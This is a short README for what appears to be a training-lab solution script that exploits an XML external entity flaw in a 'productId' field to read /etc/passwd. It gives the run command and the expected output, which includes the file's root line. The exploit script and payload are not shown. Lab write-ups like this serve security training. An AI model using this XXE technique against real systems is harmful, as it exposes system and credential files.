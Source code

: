 # Hack Steps

1. Inject payload into 'productId' XML element to retrieve the content of /etc/passwd using an external entity
2. Extract the first line as a proof

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_xxe_using_external_entities_to_retrieve_files.py
```

# Expected Output

```
⟪#⟫ Injection point: productId
⦗1⦘ Injecting payload to retrieve the content of /etc/passwd using an external entity.. OK
⦗2⦘ Extracting the first line as a proof.. OK => root:x:0:0:root:/root:/bin/bash
🗹 The lab should be marked now as solved
```
